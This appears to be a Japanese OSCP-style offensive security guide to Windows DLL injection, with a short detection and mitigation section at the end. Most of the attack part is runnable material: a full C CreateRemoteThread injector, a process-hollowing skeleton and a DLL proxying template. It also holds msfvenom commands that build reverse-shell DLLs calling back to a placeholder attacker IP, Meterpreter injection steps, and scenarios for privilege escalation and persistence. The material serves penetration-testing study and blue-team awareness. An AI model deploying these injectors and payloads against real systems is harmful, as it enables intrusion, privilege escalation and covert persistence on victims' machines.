







## TL;DR

DLLインジェクションは、ターゲットプロセスに攻撃者が制御するダイナミックリンクライブラリ（DLL）を読み込ませ、コードを実行させる技術である。Windowsにおける**権限昇格、認証情報窃取、ラテラルムーブメント、防御回避**の基盤となるポストエクスプロイト・永続化メカニズムである。本ガイドでは、主要なインジェクション手法を実用的な例と検知ガイダンスとともに解説する。

---

## DLLインジェクションとは？

DLLインジェクションは、Windowsの動的リンク機構を悪用して、別のプロセスのアドレス空間内で任意のコードを実行する技術である。信頼されたプロセス（例：`explorer.exe`、`svchost.exe`）にDLLをインジェクションすることで、攻撃者のコードはターゲットの権限、トークン、ネットワークコンテキストを継承する。

```
          ┌────────────────────────────────────┐
          │       DLLインジェクション ファミリー  │
          │                                     │
          │  Classic         ← CreateRemoteThread│
          │  Reflective      ← ディスク書込不要  │
          │  DLL Hollowing   ← 正規DLLを上書き   │
          │  Process Hollow  ← プロセス置換      │
          │  Search Order    ← DLLパス乗っ取り   │
          │  Thread Hijack   ← Suspend/Resume   │
          └────────────────────────────────────┘
```

### DLLインジェクションが重要な理由

| ユースケース | 説明 |
|---|---|
| 権限昇格 | SYSTEMプロセスにインジェクションしてトークンを継承 |
| 認証情報窃取 | LSASSにインジェクションしてプロセス内で認証情報をダンプ |
| 防御回避 | 信頼されたプロセス名の下で悪意のあるコードを実行 |
| 永続化 | DLL Search Order Hijackingで自動再実行 |
| APIフッキング | Windows API呼び出しをインターセプトしてキーロギング・データ窃取 |

---

## 手法概要



---

## 1. Classic DLL Injection（CreateRemoteThread）

最も広く知られた手法。ターゲットプロセスのメモリにDLLパスを書き込み、`LoadLibraryA`を呼び出すリモートスレッドを作成して読み込ませる。

### メカニズム



### 必要な権限

| 要件 | 詳細 |
|---|---|
| プロセスハンドル | `PROCESS_CREATE_THREAD`, `PROCESS_VM_OPERATION`, `PROCESS_VM_WRITE` |
| 最低権限 | ターゲットプロセスと同じユーザー、またはクロスユーザーの場合は`SeDebugPrivilege` |
| ディスク上のDLL | 必要 — DLLはターゲットプロセスからアクセス可能である必要がある |

### 実装（C/C++）

```c
#include <windows.h>
#include <stdio.h>

int main() {
    DWORD pid = 1234; // ターゲットPID
    const char* dllPath = "C:\\Temp\\payload.dll";

    // 1. ターゲットプロセスを開く
    HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (!hProc) { printf("OpenProcess failed: %lu\n", GetLastError()); return 1; }

    // 2. ターゲット内にDLLパス用メモリを確保
    LPVOID pRemote = VirtualAllocEx(hProc, NULL, strlen(dllPath) + 1,
                                     MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

    // 3. ターゲットにDLLパスを書き込む
    WriteProcessMemory(hProc, pRemote, dllPath, strlen(dllPath) + 1, NULL);

    // 4. LoadLibraryAのアドレスを取得（プロセス間で同一）
    FARPROC pLoadLib = GetProcAddress(GetModuleHandleA("kernel32.dll"), "LoadLibraryA");

    // 5. DLLパスを引数にLoadLibraryAを呼び出すリモートスレッドを作成
    HANDLE hThread = CreateRemoteThread(hProc, NULL, 0,
                                         (LPTHREAD_START_ROUTINE)pLoadLib, pRemote, 0, NULL);

    WaitForSingleObject(hThread, INFINITE);

    // クリーンアップ
    VirtualFreeEx(hProc, pRemote, 0, MEM_RELEASE);
    CloseHandle(hThread);
    CloseHandle(hProc);

    return 0;
}
```

### DLLペイロードテンプレート

```c
#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved) {
    switch (reason) {
        case DLL_PROCESS_ATTACH:
            // DLLロード時にペイロードが実行される
            // 例：リバースシェル、認証情報ダンプなど
            break;
        case DLL_PROCESS_DETACH:
            break;
    }
    return TRUE;
}
```

### 既存ツールの使用

**PowerSploit:**

```powershell
Import-Module .\PowerSploit.psd1
Invoke-DllInjection -ProcessID 1234 -Dll C:\Temp\payload.dll
```

**msfvenom — DLLペイロード生成：**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o payload.dll
```

---

## 2. Reflective DLL Injection

Reflective DLL Injectionは、`LoadLibrary`を呼び出さず、DLLをディスクに書き込むことなく、**完全にメモリからDLLを読み込む**技術である。DLL自体がエクスポート関数として独自のPEローダーを含み、自身をメモリにマッピングする。

### なぜReflective？

| Classic DLL Injection | Reflective DLL Injection |
|---|---|
| DLLがディスク上に存在する必要がある | メモリバッファからDLLを読み込む |
| `LoadLibrary`を呼び出す（ETW/EDRが追跡） | カスタムローダー — `LoadLibrary`呼び出しなし |
| PEBモジュールリストに登録される | モジュールリストに表示されない |
| ファイルスキャンで容易に検知される | ディスク上にファイルアーティファクトなし |

### メカニズム



### ReflectiveLoaderの主要ステップ

1. **自身のベースアドレスを発見** — 現在の命令ポインタから後方にウォークして`MZ`ヘッダを見つける
2. **新しいメモリ領域を確保** — `SizeOfImage`から適切なサイズで`VirtualAlloc`
3. **PEヘッダをコピー** — DOS + NTヘッダを新しい割り当てにコピー
4. **セクションをマッピング** — 各セクション（`.text`、`.data`等）を正しいRVAオフセットにコピー
5. **インポートを処理** — `LoadLibraryA` + `GetProcAddress`で各インポート関数を解決
6. **リロケーションを適用** — ベースが`ImageBase`と異なる場合にアドレスを修正
7. **エントリポイントを呼び出し** — `DLL_PROCESS_ATTACH`で`DllMain`を呼び出し

### ツール

**Metasploit（OSCPで最も一般的）：**

```bash
# Reflective DLLペイロード生成
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o reflect.dll

# meterpreterセッション内：
meterpreter> use post/windows/manage/reflective_dll_inject
meterpreter> set PATH /path/to/reflect.dll
meterpreter> set PID 1234
meterpreter> run
```

**sRDI（Shellcode Reflective DLL Injection）：**

標準DLLを位置独立シェルコードに変換：

```bash
# DLLをシェルコードに変換
python3 ConvertToShellcode.py -f payload.dll -o payload.bin

# ターゲットプロセスにシェルコードをインジェクション
python3 ShellcodeRDI.py payload.dll
```

---

## 3. DLL Hollowing

DLL Hollowingは、ターゲットプロセスに**正規のDLL**を読み込んだ後、その**`.text`（コード）セクションを悪意のあるコードで上書き**する。読み込まれたモジュールがメモリスキャンで正規に見えるため、検知を回避する。

### メカニズム



### 利点

- PEBロードモジュールリストに正規のWindows DLLとして表示される
- ディスク上のファイルはクリーン — メモリのみが変更される
- モジュール名をチェックするシグネチャベースのメモリスキャンをバイパス

---

## 4. Process Hollowing（RunPE）

Process Hollowingは、**正規のプロセスをサスペンド状態で新規作成**し、元のコードをアンマップして、攻撃者のPEイメージで置換する。その後、プロセスは悪意のあるコードで実行を再開する。

### メカニズム



### 実装概要

```c
// 1. サスペンド状態でプロセスを作成
STARTUPINFOA si = { sizeof(si) };
PROCESS_INFORMATION pi;
CreateProcessA("C:\\Windows\\System32\\svchost.exe", NULL, NULL, NULL,
               FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

// 2. 元のイメージをアンマップ
NtUnmapViewOfSection(pi.hProcess, pImageBase);

// 3. 希望するベースにメモリを確保
VirtualAllocEx(pi.hProcess, pImageBase, imageSize,
               MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

// 4. PEヘッダ + セクションを書き込む
WriteProcessMemory(pi.hProcess, pImageBase, pMaliciousPE, headerSize, NULL);
// ... 各セクションを正しいオフセットに書き込む

// 5. スレッドコンテキストを新しいエントリポイントに更新
CONTEXT ctx;
ctx.ContextFlags = CONTEXT_FULL;
GetThreadContext(pi.hThread, &ctx);
ctx.Rcx = (DWORD64)(pImageBase + entryPointRVA);  // x64
SetThreadContext(pi.hThread, &ctx);

// 6. 実行を再開
ResumeThread(pi.hThread);
```

### 検知の課題

| 指標 | 説明 |
|---|---|
| プロセス名 | タスクマネージャーで`svchost.exe`として表示 |
| コマンドライン | 期待される引数がない場合がある（例：`-k`サービスグループ） |
| 親プロセス | 異常な親プロセスの可能性（`services.exe`ではない） |
| メモリ領域 | イメージベースがディスク上のバイナリと異なる場合がある |

---

## 5. DLL Search Order Hijacking

この手法は**実行中のプロセスにコードをインジェクションしない**。代わりに、ターゲットアプリケーションが正規のDLLの場所よりも**先に検索する場所**に悪意のあるDLLを配置する。

### Windows DLL検索順序（SafeDllSearchMode有効時）

```
1. アプリケーションディレクトリ（.exeが存在する場所）
2. システムディレクトリ（C:\Windows\System32）
3. 16ビットシステムディレクトリ（C:\Windows\System）
4. Windowsディレクトリ（C:\Windows）
5. カレントワーキングディレクトリ
6. %PATH%内のディレクトリ
```

### 攻撃フロー



### 発見 — ハイジャック可能なDLLの特定

**Process Monitor（Sysinternals）：**

```
フィルタ:
  Result = NAME NOT FOUND
  Path   ends with .dll
```

アプリケーションがロードしようとして見つからないDLLが表示される — 完璧なハイジャック候補。

**自動化ツール：**

```powershell
# PowerSploit
Find-ProcessDLLHijack
Find-PathDLLHijack

# Robber（自動ハイジャック検出）
.\robber.exe -p "C:\Program Files\TargetApp\"
```

### DLLプロキシング

アプリケーションを壊さないために、悪意のあるDLLは**すべての正規エクスポートを本物のDLLに転送**できる：

```c
// payload.dll — すべての呼び出しを本物のDLLにプロキシ
#pragma comment(linker, "/export:OriginalFunc1=legitimate.OriginalFunc1")
#pragma comment(linker, "/export:OriginalFunc2=legitimate.OriginalFunc2")
// ... すべてのエクスポートを転送

BOOL APIENTRY DllMain(HMODULE hModule, DWORD reason, LPVOID lpReserved) {
    if (reason == DLL_PROCESS_ATTACH) {
        // バックグラウンドスレッドでペイロードを実行
        CreateThread(NULL, 0, PayloadThread, NULL, 0, NULL);
    }
    return TRUE;
}
```

### 一般的なハイジャックターゲット

| アプリケーション | 欠落/ハイジャック可能なDLL | 場所 |
|---|---|---|
| 各種インストーラー | `version.dll` | アプリケーションディレクトリ |
| Microsoft Teams | `dbghelp.dll` | アプリケーションディレクトリ |
| OneDrive | 各種ヘルパーDLL | ユーザー書込可能パス |
| カスタムアプリケーション | フルパス未使用のDLL | `%PATH%`ディレクトリ |

> **OSCPメモ：** DLL Hijackingは、SYSTEMとして実行されるサービスがユーザー書込可能なディレクトリからDLLをロードする場合の**権限昇格**に特に有用。

---

## 6. Thread Hijacking（SetThreadContext）

新しいスレッドを作成する代わりに、ターゲットプロセス内の**既存スレッドを乗っ取る**技術。スレッドをサスペンドし、命令ポインタを変更してからレジュームする。

### メカニズム



### CreateRemoteThreadに対する利点

- 新しいスレッドが作成されない — `CreateRemoteThread`検知を回避
- スレッド作成APIをフックするEDRに対して有効
- 既存スレッド下でのステルス実行

---

## 手法比較

| 手法 | ディスクアーティファクト | 新規スレッド | モジュールリスト表示 | ステルスレベル | 複雑さ |
|---|---|---|---|---|---|
| Classic DLL Injection | あり（ディスク上にDLL） | あり | あり | 低 | 低 |
| Reflective DLL Injection | なし | あり | なし | 高 | 中 |
| DLL Hollowing | なし（ディスク上は正規DLL） | あり | あり（正規DLLとして） | 高 | 中 |
| Process Hollowing | なし | なし（メインを再利用） | あり（正規プロセスとして） | 非常に高 | 高 |
| DLL Search Order Hijack | あり（ディスク上にDLL） | なし | あり | 中 | 低 |
| Thread Hijacking | なし | なし | なし | 非常に高 | 高 |

---

## OSCP関連シナリオ

### シナリオ1：DLL Hijackingによる権限昇格

```cmd
:: 1. 書込可能なパスからDLLをロードするSYSTEM実行サービスを特定
sc qc VulnService
icacls "C:\Program Files\VulnApp\"

:: 2. 悪意のあるDLLを生成
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o target.dll

:: 3. ハイジャック可能なパスにDLLを配置
copy target.dll "C:\Program Files\VulnApp\target.dll"

:: 4. サービスを再起動（またはシステム再起動を待つ）
net stop VulnService && net start VulnService

:: 5. 攻撃者側でSYSTEMとしてリバースシェルをキャッチ
nc -lvnp 4444
```

### シナリオ2：ポストエクスプロイト — Explorerへのインジェクション

```bash
# 1. DLLペイロードを生成
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI_IP> LPORT=4444 -f dll -o payload.dll

# 2. ターゲットにアップロード
upload payload.dll C:\\Temp\\payload.dll

# 3. explorer.exe（現在のユーザーとして実行）にインジェクション
meterpreter> use post/windows/manage/reflective_dll_inject
meterpreter> set PID <explorer_pid>
meterpreter> set PATH /tmp/payload.dll
meterpreter> run
```

### シナリオ3：DLL Search Order Hijackingによる永続化

```cmd
:: 1. 自動起動し、欠落DLLがあるアプリケーションを発見
:: Process MonitorでNAME NOT FOUNDフィルタを使用

:: 2. 期待される名前のDLLを作成
:: 一致するエクスポートでペイロードDLLをコンパイル

:: 3. アプリケーションディレクトリに配置
copy payload.dll "C:\Program Files\AutoStartApp\missing.dll"

:: 4. アプリケーションが起動するたびに悪意のあるDLLをロード
```

---

## 検知と防御

### ブルーチーム指標

| イベント / 指標 | 説明 |
|---|---|
| Sysmon Event ID 8 | `CreateRemoteThread` — 別プロセスにスレッドが作成された |
| Sysmon Event ID 7 | Image loaded — 未署名または異常なDLLがロードされた |
| Event ID 4688 | プロセス作成 — 疑わしい親子関係を監視 |
| ETW `Microsoft-Windows-Kernel-Process` | クロスプロセスの`VirtualAllocEx` / `WriteProcessMemory`を追跡 |
| メモリ異常 | RWX領域、バックされていない実行可能メモリ、ヒープ内のPEヘッダ |
| PEBモジュール不一致 | ロードモジュールリストと実際のマッピング済みメモリ領域の比較 |

### 検知戦略

```
┌─────────────────────────────────────────────────┐
│              検知レイヤー                         │
│                                                  │
│  1. API監視                                      │
│     → OpenProcess, VirtualAllocEx,               │
│       WriteProcessMemory, CreateRemoteThreadを   │
│       フック                                     │
│                                                  │
│  2. メモリスキャン                                │
│     → RWX領域、バックされていないPE、             │
│       浮遊コード（関連モジュールなし）を検知       │
│                                                  │
│  3. モジュール整合性                              │
│     → ロード済みDLLハッシュとディスク上の          │
│       ハッシュを比較                              │
│     → Hollowされた.textセクションを検知           │
│                                                  │
│  4. 振る舞い分析                                  │
│     → プロセスからの異常なAPI呼び出しパターン      │
│     → 予期しないプロセスからのネットワーク接続     │
│                                                  │
│  5. DLLロード監査                                 │
│     → コード署名の強制                            │
│     → AppLocker DLLルール                        │
│     → WDAC（Windows Defender Application Control）│
│                                                  │
└─────────────────────────────────────────────────┘
```

### 緩和策

| 緩和策 | ブロックされる手法 |
|---|---|
| **Code Integrity Guard**（`ProcessSignaturePolicy`） | 未署名DLLのロードを防止 |
| **CIG / ACG**（Arbitrary Code Guard） | 動的コード生成（RWX）を防止 |
| **AppLocker DLLルール** | 許可DLLのホワイトリスト |
| **WDAC**（Windows Defender Application Control） | カーネルレベルのコード署名強制 |
| **SafeDllSearchMode** | DLLハイジャックの攻撃面を縮小 |
| **DLL Safe Search / KnownDLLs** | 一般的なシステムDLLを保護 |
| **Credential Guard** | LSASSへのインジェクションを防止 |
| **PPL**（Protected Process Light） | 保護プロセスへのインジェクションを防止 |

---

## クイックコマンドリファレンス

```bash
# DLLペイロード生成（リバースシェル）
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=4444 -f dll -o payload.dll

# DLLペイロード生成（meterpreter）
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f dll -o payload.dll

# meterpreter経由でDLLインジェクション
meterpreter> use post/windows/manage/reflective_dll_inject
meterpreter> set PID <target_pid>
meterpreter> set PATH /path/to/payload.dll
meterpreter> run

# ハイジャック可能なDLLを発見（PowerSploit）
Import-Module PowerSploit
Find-ProcessDLLHijack
Find-PathDLLHijack

# DLLコンパイル（LinuxでMinGWクロスコンパイル）
x86_64-w64-mingw32-gcc -shared -o payload.dll payload.c -lws2_32

# インジェクターコンパイル（LinuxでMinGWクロスコンパイル）
x86_64-w64-mingw32-gcc -o injector.exe injector.c
```

---

## 参考文献

- Stephen Fewer — Reflective DLL Injection: [https://github.com/stephenfewer/ReflectiveDLLInjection](https://github.com/stephenfewer/ReflectiveDLLInjection)
- sRDI — Shellcode Reflective DLL Injection: [https://github.com/monoxgas/sRDI](https://github.com/monoxgas/sRDI)
- MITRE ATT&CK T1055 — Process Injection: [https://attack.mitre.org/techniques/T1055/](https://attack.mitre.org/techniques/T1055/)
- MITRE ATT&CK T1574.001 — DLL Search Order Hijacking: [https://attack.mitre.org/techniques/T1574/001/](https://attack.mitre.org/techniques/T1574/001/)
- Elastic Security — DLL Injection Detection: [https://www.elastic.co/guide/en/security/current/process-injection.html](https://www.elastic.co/guide/en/security/current/process-injection.html)
